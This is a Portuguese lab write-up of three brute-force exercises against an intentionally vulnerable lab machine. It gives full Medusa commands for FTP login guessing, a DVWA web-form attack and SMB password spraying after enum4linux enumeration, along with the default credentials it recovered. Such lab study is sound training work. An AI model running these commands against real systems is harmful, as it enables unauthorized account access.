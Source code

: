 Teste 1 — Ataque FTP com Medusa

Na primeira atividade foi usado o Medusa para forçar logins no serviço FTP do alvo (192.168.56.101). A ideia foi simples: tentar combinações de usuários e senhas até encontrar uma que funcionasse.

Comando usado:
medusa -h 192.168.56.101 -U users.tet -P pass.txt -M ftp -t 6

O Medusa rodou várias tentativas em paralelo contra o serviço FTP. No fim ele reportou sucesso com as credenciais Login:msfadmin,Senha:msfadmin. Para validar:

ftp 192.168.56.101
  usuário: msfadmin
  senha: msfadmin

O prompt aceitou o login — ou seja, a combinação encontrada realmente permitiu acesso ao serviço FTP. Foi um exemplo prático de como contas com credenciais previsíveis podem ser exploradas rápido por ferramentas automatizadas.

Teste 2 — Brute-force em formulário web (DVWA)

Aqui o alvo foi a página de login do DVWA (/dvwa/login.php). Foi testado um login manual primeiro (ex.: Argel / 123) e recebemos Login Failed. Mas, ao inspecionar a requisição no DevTools, vimos os campos do formulário: username, password e Login.

Foi montado um ataque direcionado ao POST do formulário com Medusa, especificando a página, o corpo do formulário e a string que indica falha:

Comando usado:
  medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
    -m PAGE:'/dvwa/login.php' \
    -m FORM:'username=^USER^&password=^PASS^&login=Login' \
    -m 'FAIL=login failed' -t 6

O Medusa varreu combinações e encontrou admin:password. Novamente, foi validado que o acesso era real. Esse teste mostra que, em aplicações web que não protegem o formulário contra tentativas automáticas, ataques de força bruta conseguem identificar credenciais válidas.

Teste 3 — Enumeração SMB + Password spraying (fluxo em cadeia)

Nesse exercício primeiro foi feita um enumeração do serviço SMB para coletar informações úteis (nomes, workgroup, possíveis usuários), depois esses dados foram usados para montar wordlists e executar um password spray.

Enumeração:
  enum4linux -a 192.168.56.101 | tee enum4_output.txt

O output trouxe nomes e comentários que nos ajudaram a criar listas de usuários e senhas mais direcionadas.

Ataque com Medusa (SMB):
  medusa -h 192.168.56.101 -U smb_user.txt -P senhas_spray.txt -M smbnt -t 2 -T 50

O Medusa retornou Login:msfadmin,Senha:msfadmin como credenciais válidas.

Validação com smbclient:
  smbclient -L //192.168.56.101 -U msfadmin
    senha: msfadmin
    
O acesso foi concedido, confirmando que a credencial funcionava no serviço SMB.
